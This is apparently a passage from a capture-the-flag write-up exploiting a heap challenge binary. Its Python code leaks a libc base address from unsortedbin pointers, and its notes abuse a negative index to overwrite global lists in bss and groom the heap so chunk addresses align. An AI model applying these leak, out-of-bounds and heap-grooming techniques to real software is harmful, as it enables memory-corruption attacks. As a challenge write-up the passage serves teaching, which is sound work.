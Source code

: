 ```python
#make unsortedbin chunk
for i in range(8):
    add_clip(i, 0x90, b'A')

for i in range(8):
    del_clip(7-i)

#get libc_addr from fd, bk of unsortedbin
for i in range(7):
    add_clip(i, 0x90, b'A')

add_clip(7, 0x50, b'H')

view_clip(7)
r.recvn(8)
libc_base = u64(r.recvn(6) + b'\x00'*2) - 0x21ac80 - 240
print(hex(libc_base))
```
<br />

### Using negative index
- We can't do anything with simple add or delete clip.
- At bss, global variable's order is addr_list, check_list, size_list.
- If we input a negative index, size can be written to check_list or addr_list, and check can be written to addr_list.
- If we input -7, size is written to addr_list[8], check is decided by addr_list[9]'s 0xff00 byte. Address is written at dso_handle, and it is not that important.
- Changing add_list[9]'s value is very sensitive. To control this more efficiently, the heap's address must end with 0xf000. Program prints heap's address when to start, so we can decide very fast.
- After that, we can make next chunk's address is end with 0x0000 by allocate lots of chunk and free it.
<br />

```python
#setting chunk's addr like 0x0000
for i in range(7):
    add_clip(i, 0x50, b'A')

for i in range(7):
    del_clip(6-i)

for i in range(7):
    add_clip(i, 0x40, b'A')

for i in range(7):
    del_clip(6-i)

for i in range(7):
    add_clip(i, 0x30, b'A')

for i in range(7):
    del_clip(i)

add_clip(0, 0x70, b'A')
add_clip(1, 0x70, b'A')
add_clip(2, 0x70, b'A')
add_clip(3, 0x70, b'A')
add_clip(4, 0x10, b'A')
add_clip(5, 0x10, b'A')

for i in range(6):
    del_clip(5-i)
```
<br />